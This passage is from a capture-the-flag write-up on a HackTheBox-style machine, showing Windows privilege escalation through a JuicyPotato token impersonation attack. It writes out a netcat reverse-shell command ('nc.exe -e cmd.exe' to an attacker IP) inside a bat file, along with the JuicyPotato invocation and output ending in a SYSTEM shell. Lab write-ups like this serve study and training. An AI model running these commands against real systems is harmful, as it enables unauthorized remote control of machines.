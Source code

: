 **Here we see `SeImpersonatePrivilege` is enabled. We need to do Token Impersonation attack.**

We can use JuicyPotato for Token Impersonation attack from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#juicy-potato-abusing-the-golden-privileges)

First I downloaded [JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases) to my machine.

We need to get a normal shell instead of PowerShell. Get nc.exe [here](https://github.com/int0x33/nc.exe/blob/master/nc.exe). Upload it to the box and get revere shell.

![Untitled](/img/htb-silo/Untitled%208.png)

I created a bat file that executes nc and give me shell.

```bash
C:\TEMP>echo C:\TEMP\nc.exe -e cmd.exe 10.10.14.9 1232 > rev.bat
echo C:\TEMP\nc.exe -e cmd.exe 10.10.14.9 1232 > rev.bat
```

Then I ran `JuicyPotato` and it executes `bat` file

```bash
C:\TEMP>juicypotato.exe -p C:\TEMP\rev.bat -l 1232 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
juicypotato.exe -p C:\TEMP\rev.bat -l 1232 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 1232
......
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\TEMP>
```

![Untitled](/img/htb-silo/Untitled%209.png)

We own the system